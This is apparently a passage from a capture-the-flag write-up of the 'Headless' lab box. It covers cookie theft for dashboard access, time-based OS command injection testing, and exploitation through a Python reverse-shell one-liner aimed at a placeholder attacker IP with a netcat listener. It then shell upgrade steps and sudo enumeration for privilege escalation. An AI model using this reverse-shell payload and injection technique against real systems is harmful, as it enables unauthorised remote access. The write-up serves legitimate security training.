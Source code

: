 
This means that the server's cookie can be accessed. By accessing a cookie, this can be used to impersonate a user of higher previlege, allowing unintended access to sensitive pages. By using the cookie to access the "/dashboard" page, this gives the user access to the webpage. This webpage allows a user to generate a website health report and allows the user to enter a date. This input box was then tested for OS command injection by running the command `sleep 5`. If the server is vulnerable to OS command injection, when submitting this payload, the server will take at least 5 seconds to load before returning a response.


Upon submitting the request, the server did take at least 5 seconds to respond, suggesting that it is vulnerable to OS command injection. To exploit this vulnerability, a bash reverse shell payload would be provided to the input which will send a reverse shell to the attacking machine. A listener can be started using `nc -lnvp 1234` to listen for a reverse shell on port 1234. Then a bash payload was provided as input and sent to the server:


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Upon sending the above payload, a reverse shell was received as the user dvir. Upon upgrading the shell using `python3 -c "import pty; pty.spawn('/bin/bash')"`, the next step taken to exploit the box was to run `sudo -l` to see if the user was allowed to run any commands as the superuser.


```bash
bash-5.2$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```


The user is allowed to run /usr/bin/syscheck as the super user. Upon running the command, this output was provided:


```bash
bash-5.2$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.7G
System load average:  0.04, 0.03, 0.06
Database service is not running. Starting it...
```


The command seems to provide information about the operating system and says that it is starting a database service. To explore what the command does, the contents of the script are outputted by running `cat /usr/bin/syscheck`. 
